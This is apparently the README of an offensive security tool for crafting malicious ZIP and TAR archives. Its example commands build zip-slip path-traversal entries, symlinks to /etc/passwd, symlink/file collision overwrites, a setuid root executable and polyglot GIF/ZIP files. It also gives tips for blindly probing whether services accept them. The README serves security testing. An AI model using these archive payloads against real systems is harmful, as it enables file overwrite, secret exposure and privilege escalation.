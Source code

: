 # Archive Alchemist

Archive Alchemist is a security research tool for creating specially crafted archives to test extraction vulnerabilities.
![](art.png)
<!-- ASCII art by jgs from https://ascii.co.uk/art/science -->

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify
- Multiple helper commands: extract, list, read
- Create polyglot files (prepend archive with data + adjust headers)

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archive-alchemist.git
cd archive-alchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

See [Documentation](docs/index.md)


### Tips

#### Suggested working directory setup

The most convenient way to test multiple payloads/tests for an archive is to use a local working directory and the `replace` command with `--content-directory` flag to "sync" the local directory to the archive:

1. Extract into working directory: `./archive-alchemist.py -f target.zip extract -o workingdir/`
2. Make changes to file(s) in `workingdir/`
3. Build archive from working directory: `./archive-alchemist.py -f target_poc.zip add --content-directory workingdir/ ""`
4. Test using `target_poc.zip`
5. GOTO #2

#### Blind detect symlink support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py -f target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/file2.json`
3. Build archive from working directory: `./archive-alchemist.py -f target_poc.zip add --content-directory workingdir/ ""`
4. Change `bla/file.json` to a symlink to `bla/file2.json`: `./archive-alchemist.py -f target_poc.zip replace --symlink file2.json "bla/file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports symlinks!

#### Blind detect path traversal support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py -f target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/blu/file.json`
3. Build archive from working directory: `./archive-alchemist.py -f target_poc.zip add --content-directory workingdir/ ""`
4. Add `bla/blu/../file.json` to the archive: `./archive-alchemist.py -f target_poc.zip add --content-file "workingdir/bla/blu/file.json" "bla/blu/../file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports path traversal! (Although there might be additional checks to make sure that you dont traverse outside of the target directory)

#### Blind detect absolute path support

I havent really come up with a good generic way to test for this, but you could try changing `some/file.txt` to `/proc/self/cwd/some/file.txt`, and see if that works. Relying on proc filesystem and hoping that its cwd is the same as the extraction directory is not ideal, but its something.

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py -f zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py -f symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py -f collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py -f collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py -f setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

#### Polyglot File

```bash
# Create a file that's a valid ZIP and starts with GIF magic bytes
./archive-alchemist.py -f polyglot.gif add payload.txt --content "hello there"
./archive-alchemist.py -f polyglot.gif polyglot --content "GIF89aI am totally a GIF file"
```